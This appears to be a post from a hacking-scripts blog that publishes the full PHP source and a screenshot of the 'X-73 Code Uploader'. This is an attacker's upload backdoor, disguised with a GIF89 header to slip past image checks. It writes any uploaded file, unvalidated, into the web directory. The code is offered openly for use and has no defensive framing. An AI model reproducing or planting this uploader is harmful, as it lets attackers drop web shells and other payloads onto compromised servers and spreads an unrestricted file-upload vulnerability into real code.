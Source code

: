 ```yaml
---
id: 245
title: X-73 Code Uploader
author: admin
layout: post
guid: http://hackingscripts.com/?p=245
permalink: /x-73-code-uploader/
categories:
  - PHP
tags:
  - PHP
  - X-73
---
```

&#8211;==@[&#8211; X-73 CODE UPLOADER &#8211;]==&#8211;


### X-73 Code Uploader Source Code

{% highlight php %}GIF89;a
<?php
    $myUpload = new maxUpload(); 
    //$myUpload-&gt;setUploadLocation(getcwd().DIRECTORY_SEPARATOR);
    $myUpload-&gt;uploadFile();
?>
<?php
class maxUpload{
    var $uploadLocation;
    
    /**
     * Constructor to initialize class varaibles
     * The uploadLocation will be set to the actual 
     * working directory
     *
     * @return maxUpload
     */
    function maxUpload(){
        $this-&gt;uploadLocation = getcwd().DIRECTORY_SEPARATOR;
    }

    /**
     * This function sets the directory where to upload the file
     * In case of Windows server use the form: c:\\temp\\
     * In case of Unix server use the form: /tmp/
     *
     * @param String Directory where to store the files
     */
    function setUploadLocation($dir){
        $this-&gt;uploadLocation = $dir;
    }
    
    function showUploadForm($msg='',$error=''){
?>
       &lt;div id="container"&gt;
            &lt;div id="header"&gt;&lt;div id="header_left"&gt;&lt;/div&gt;
            &lt;div id="header_main"&gt;SUL-BAR LINK&lt;div id="header_right"&gt;&lt;/div&gt;&lt;/div&gt;
            &lt;div id="content"&gt;
<?php
if ($msg != ''){
    echo '&lt;p class="msg"&gt;'.$msg.'&lt;/p&gt;';
} else if ($error != ''){
    echo '&lt;p class="emsg"&gt;'.$error.'&lt;/p&gt;';

}
?>
&lt;body bgcolor="#000000"&gt;&lt;center&gt;&lt;div style="background-image:url(''); width="1040" height="710" class="shakeimage" onMouseOver="init(this);rattleimage()" onMouseOut="stoprattle(this);top.focus()" onClick="top.focus()" alt="" border="0"&gt;&lt;br&gt;&lt;div
id="example1"&gt;&lt;/div&gt;&lt;p id="example2"&gt;&lt;font face="Papyrus"; color="red"; size="6"&gt;&lt;br&gt;--==@[-- X-73 CODE UPLOADER --]==--

                &lt;form action="" method="post" enctype="multipart/form-data" &gt;
                     &lt;center&gt;
                         &lt;label&gt;File:
                             &lt;input name="myfile" type="file" size="30" /&gt;
                         &lt;/label&gt;
                         &lt;label&gt;
                             &lt;input type="submit" name="submitBtn" class="sbtn" value="Upload" /&gt;
                         &lt;/label&gt;
                     &lt;/center&gt;
                 &lt;/form&gt;
             &lt;/div&gt;
             &lt;div id="footer"&gt;&lt;a href="http://www.sekedar-online.com" target="_blank"&gt;Sulbar-Link&lt;/a&gt;&lt;/div&gt;
         &lt;/div&gt;
<?php
    }

    function uploadFile(){
        if (!isset($_POST['submitBtn'])){
            $this-&gt;showUploadForm();
        } else {
            $msg = '';
            $error = '';
            
            //Check destination directory
            if (!file_exists($this-&gt;uploadLocation)){
                $error = "The target directory doesn't exists!";
            } else if (!is_writeable($this-&gt;uploadLocation)) {
                $error = "The target directory is not writeable!";
            } else {
                $target_path = $this-&gt;uploadLocation . basename( $_FILES['myfile']['name']);

                if(@move_uploaded_file($_FILES['myfile']['tmp_name'], $target_path)) {
                    $msg = basename( $_FILES['myfile']['name']).
                    " File anda sukses di Upload!";
                } else{
                    $error = "Proses Upload terganggu!";
                }
            }

            $this-&gt;showUploadForm($msg,$error);
        }

    }

}
?>
{% endhighlight %}


### X-73 Code Uploader screenshot<figure id="attachment_434" style="width: 604px;" class="wp-caption aligncenter">

[<img src="{{ site.baseurl }}/wp-content/uploads/2014/02/x-73-code-uploader-1024x351.png" alt="X-73 code uploader screenshot" width="604" height="207" class="size-large wp-image-434" />][1]<figcaption class="wp-caption-text">X-73 code uploader screenshot</figcaption></figure>

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/02/x-73-code-uploader.png